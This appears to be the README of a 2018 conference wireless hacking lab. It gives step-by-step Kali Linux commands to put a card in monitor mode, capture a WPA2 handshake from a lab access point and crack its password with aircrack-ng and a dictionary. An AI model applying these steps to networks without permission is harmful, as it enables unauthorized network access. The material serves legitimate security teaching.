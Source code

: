 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatiable with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
Here you will walk through the process of monitoring wireless networks and capturing a WPA2 handshake.

1. The iwconfig command will show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the <mac-address> and <channel> with what you found in step 3 and <filename> with a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon -bssid 00:30:44:27:E3:38 --channel 1 --write break
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + C’. An 'ls' after you break out should display 'break-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng break-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

9. Back on the Kali Linux desktop, select the icon at the bottom of the sidebar titled 'Show Applications'. Use the 'Type to search' box to search 'Settings' and open it. Select Wi-Fi and find 'RSSC' under 'Visible Networks'. Select it and type in the password to connect to the network.

10. Back in terminal, type:
```bash
ping 192.168.0.1
```
This is pinging the AP/Router that is broadcasting this SSID. You have gotten onto the network.
